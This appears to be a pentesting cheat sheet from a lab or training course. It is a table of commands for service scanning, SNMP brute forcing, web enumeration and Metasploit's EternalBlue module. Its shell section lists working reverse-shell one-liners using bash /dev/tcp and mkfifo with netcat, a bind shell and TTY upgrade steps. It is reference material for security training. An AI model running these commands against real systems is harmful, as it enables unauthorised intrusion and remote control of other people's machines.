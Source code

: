 [https://vimsheet.com/](https://vimsheet.com/)

## **Pentesting**

| Command | Description |
| --- | --- |
| Service Scanning |  |
| nmap 10.129.42.253 | Run nmap on an IP |
| nmap -sV -sC -p- 10.129.42.253 | Run an nmap script scan on an IP |
| locate scripts/citrix | List various available nmap scripts |
| nmap --script smb-os-discovery.nse -p445 10.10.10.40 | Run an nmap script on an IP |
| netcat 10.10.10.10 22 | Grab banner of an open port |
| smbclient -N -L \\\\10.129.42.253 | List SMB Shares |
| smbclient \\\\10.129.42.253\\users | Connect to an SMB share |
| snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0 | Scan SNMP on an IP |
| onesixtyone -c dict.txt 10.129.42.254 | Brute force SNMP secret string |
| Web Enumeration |  |
| gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt | Run a directory scan on a website |
| gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt | Run a sub-domain scan on a website |
| curl -IL https://www.inlanefreight.com | Grab website banner |
| whatweb 10.10.10.121 | List details about the webserver/certificates |
| curl 10.10.10.121/robots.txt | List potential directories in robots.txt |
| ctrl+U | View page source (in Firefox) |
| Public Exploits |  |
| searchsploit openssh 7.2 | Search for public exploits for a web application |
| msfconsole | MSF: Start the Metasploit Framework |
| search exploit eternalblue | MSF: Search for public exploits in MSF |
| use exploit/windows/smb/ms17_010_psexec | MSF: Start using an MSF module |
| show options | MSF: Show required options for an MSF module |
| set RHOSTS 10.10.10.40 | MSF: Set a value for an MSF module option |
| check | MSF: Test if the target server is vulnerable |
| exploit | MSF: Run the exploit on the target server is vulnerable |
| Using Shells |  |
| nc -lvnp 1234 | Start a nc listener on a local port |
| bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1' | Send a reverse shell from the remote server |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f | Another command to send a reverse shell from the remote server |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f | Start a bind shell on the remote server |
| nc 10.10.10.1 1234 | Connect to a bind shell started on the remote server |
| python -c 'import pty; pty.spawn("/bin/bash")' | Upgrade shell TTY (1) |
| ctrl+z then stty raw -echo then fg then enter twice or input reset | Upgrade shell TTY (2) |